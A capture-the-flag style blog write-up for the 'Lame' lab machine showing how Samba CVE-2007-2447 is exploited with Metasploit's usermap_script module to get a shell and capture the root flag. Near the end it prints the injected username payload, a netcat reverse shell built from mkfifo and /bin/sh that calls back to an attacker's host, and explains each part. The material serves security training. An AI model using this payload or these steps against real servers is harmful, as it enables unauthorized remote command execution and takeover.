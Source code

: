 # Lame

In this blog, we explore the process of identifying and exploiting vulnerabilities in Samba using the CVE-2007-2447 exploit. By leveraging Metasploit, we demonstrate how to gain unauthorized access to a server through the manipulation of shell metacharacters. This post provides a detailed, step-by-step guide on executing the exploit and capturing the root flag.

Perform an nmap scan using the -sV switch. We see we get a response with multiple services up and running on the target server.

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

If we do some basic research, we identify some vulnerabilities relating to the Samba version running on the server.

Samba is a suite of programs that implements the Server Message Block (SMB) protocol, which includes NetBIOS over TCP/IP (NBT). SMB is a network file sharing protocol that allows computers and servers to communicate with other systems using network ports. NetBIOS is an older transport layer that allows Windows computers to communicate with each other on the same network.

For the machine, we are going to utilize CVE-2007-2447, which as defined by CVE, "allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function when the 'username map script' smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management."

Luckily, we see Metasploit already has a script to exploit this vulnerability.

Type the following commands to properly execute the Metasploit payload:

`search cve-2007-2447`

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption><p>Find Metasploit script</p></figcaption></figure>

`use exploit/multi/samba/usermap_script`

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption><p>Use script</p></figcaption></figure>

`set rhost "Enter applicable ip address"`

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p>Set your host IP properly</p></figcaption></figure>

`run`

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption><p>Run script</p></figcaption></figure>

We now have successfully established a connection with the remote Samba server.

You will find the user flag in the /home/makis directory. Type `Shell` to spawn a new shell in your CMD and locate the root flag by typing `cd /root`.

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Here is the Metasploit script that actually performs the exploit.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Example Execution Flow:

* **Username Injection:**
  * When Samba processes the username field /=nohup mkfifo /tmp/hago; nc lhost lport 0\</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago\`\`:
* **Command Execution:**
  * The shell interprets the backticks and executes the command inside them.
  * `mkfifo /tmp/hago` is executed, creating a named pipe.
  * `nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1` is executed, establishing a reverse shell connection to the attacker's machine.
  * `rm /tmp/hago` is executed, cleaning up the named pipe.
  * The backticks `` ` ` `` around `nohup " + payload + "` ensure that this string is treated as a command and executed by the shell.
  * `nohup` ensures that the command runs to completion without being interrupted by hangup signals.
  * By carefully crafting the payload and using shell metacharacters, the attacker can execute arbitrary commands on the vulnerable server, leading to a reverse shell and potentially complete control over the target system.
